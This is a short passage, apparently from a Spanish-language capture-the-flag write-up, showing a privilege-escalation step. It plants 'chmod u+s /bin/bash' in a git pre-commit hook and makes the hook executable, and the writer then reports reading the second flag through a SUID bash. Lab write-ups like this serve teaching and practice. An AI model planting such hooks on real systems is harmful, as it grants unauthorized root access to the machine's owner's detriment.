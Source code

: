 ```null
dev01@opensource:~$ echo 'chmod u+s /bin/bash' > ".git/hooks/pre-commit"
dev01@opensource:~$ chmod +x /home/dev01/.git/hooks/pre-commit
```

La bash se convierte en SUID y puedo ver la segunda flag